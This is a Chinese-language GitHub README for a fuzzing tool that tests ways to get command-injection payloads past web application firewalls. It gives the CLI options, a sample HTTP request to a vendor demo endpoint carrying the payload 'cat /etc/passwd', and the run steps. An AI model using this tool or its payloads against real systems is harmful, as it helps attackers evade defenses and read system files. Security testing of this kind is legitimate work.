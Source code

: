 一个基于fuzz的waf绕过测试工具，当前支持命令执行绕过。后续会支持更多绕过方式、攻击类型。

```
Usage of ./client:
  -debug-file-path string
        specify request response log file path (default "fuzz_http_request_response.log")
  -fuzz-cmd string
        specify command, default is cat /etc/passwd (default "cat /etc/passwd")
  -fuzz-cmd-interpreter string
        specify command interpreter, default is bash, can be bash or sh (default "bash")
  -fuzz-cmd-mode string
        specify fuzz test case verification mode, default is real, can be real or mock (default "mock")
  -fuzz-count int
        specify max fuzz times (default 10000000)
  -log-level string
        specify log level, default is info (default "info")
  -target string
        specify the request file path
  -target-https
        specify whether the request is https protocol (default true)
  -target-mark string
        specify the request fuzz position mark (default "%{{.*}}%")
  -waf-block-regex string
        specify waf block regex
  -waf-block-rsp-status-code int
        specify waf block response status code (default 403)
```

# 使用步骤
1、准备需要绕过的HTTP请求文件，例如：test.http

```
POST /demo/detect/ HTTP/1.1
Host: cmdchop.chaitin.com
accept: application/json, text/javascript, */*; q=0.01
accept-language: zh-CN,zh;q=0.9,en;q=0.8
content-type: application/json
cookie: _ga=GA1.2.212169703.1725506930; _ga_PNVRK9GRJ2=GS1.2.1725527773.2.1.1725529516.0.0.0; user_id=f62aa452-d92a-405a-9295-49aba0ed6d47; cid=dea7646d-7542-432f-858f-c745914a1e73; mid=c0b990d0-a3dc-455c-9f66-bac94da0b098
origin: https://cmdchop.chaitin.com
priority: u=1, i
referer: https://cmdchop.chaitin.com/demo/
sec-ch-ua: "Chromium";v="130", "Google Chrome";v="130", "Not?A_Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "macOS"
sec-fetch-dest: empty
sec-fetch-mode: cors
sec-fetch-site: same-origin
user-agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
x-requested-with: XMLHttpRequest
Content-Length: 50

{"type":"urlpath","payload":"/?p=cat /etc/passwd"}
```

2、将payload的位置用%{{.*}}%标记，例如：

```
{"type":"urlpath","payload":"/?p=%{{cat /etc/passwd}}%"}
```

3、运行命令：

```
./x_waf -target test/chatin-cmdchop.http -fuzz-cmd-mode real -waf-block-regex payload
```

-fuzz-cmd-mode real 会实际执行命令，验证payload是否有效，当前只支持查看/etc/passwd文件内容

-fuzz-cmd-mode mock 会解析命令，验证payload是否有效，支持任意命令

-waf-block-regex payload 指定waf拦截时页面响应的匹配内容，支持正则表达式

4、查看bypass结果：

```
cat result.txt
```

# 运行截图
<img width="1096" alt="image" src="https://github.com/user-attachments/assets/5d9bb89e-5a46-4e13-b203-3d43a3c68753">


